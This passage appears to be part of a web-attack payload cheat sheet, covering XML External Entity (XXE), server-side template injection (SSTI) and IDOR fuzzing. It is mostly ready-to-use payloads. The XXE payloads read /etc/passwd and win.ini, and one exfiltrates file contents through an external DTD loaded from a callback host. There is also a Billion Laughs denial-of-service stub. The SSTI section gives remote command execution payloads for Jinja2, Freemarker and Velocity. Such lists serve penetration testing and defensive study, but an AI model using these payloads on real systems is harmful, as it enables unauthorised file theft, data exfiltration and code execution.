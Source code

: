 **7. XML External Entity (XXE)**

```
# === Basic File Read ===
<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>
<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]><root>&xxe;</root>

# === OAST Exfiltration ===
<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://{{CALLBACK_URL}}/evil.dtd"> %remote;%int;%send;]>
<!-- On your evil.dtd server: -->
<!-- <!ENTITY % file SYSTEM "file:///etc/passwd"> -->
<!-- <!ENTITY % int "<!ENTITY % send SYSTEM 'http://{{CALLBACK_URL}}/?content=%file;'>"> -->

# === Parameter Entities ===
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://{{CALLBACK_URL}}"> %xxe; ]>

# === Billion Laughs (DoS) ===
<?xml version="1.0"?><!DOCTYPE lolz [<!ENTITY lol "lol"><!ENTITY lol2 "&lol;&lol;">...
  
```

**8. Server-Side Template Injection (SSTI)**

```
# === Detection Payloads ===
{{7*7}}
${7*7}
<%= 7*7 %>
#{7*7}
*{7*7}
{{self}}

# === RCE Payloads (Engine Specific) ===
# Jinja2 (Python)
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('{{CMD}}').read() }}
{{ config.__class__.__init__.__globals__['os'].popen('{{CMD}}').read() }}

# Freemarker (Java)
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("{{CMD}}") }

# Velocity (Java)
#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($cm=$rt.getRuntime().exec('{{CMD}}'))
$cm.getInputStream()
  
```

**9. IDOR / BOLA (Fuzzing Payloads)**

This is more about technique. Use Intruder's "Numbers" payload type.

* **Endpoint:** /api/v1/users/{USER\_ID}/profile -> Fuzz USER\_ID from 1 to 1000.
* **Endpoint:** /api/v1/admin/users/1 -> Fuzz the path: change admin to user, manager, support.
* **Payloads for Roles/IDs:**
  * admin
  * administrator
  * root
  * guest
  * test
  * user1
  * UUIDs (If you find one, slightly alter it to see if you can access another).
  * 1,2,3...1000 (Number fuzzing)
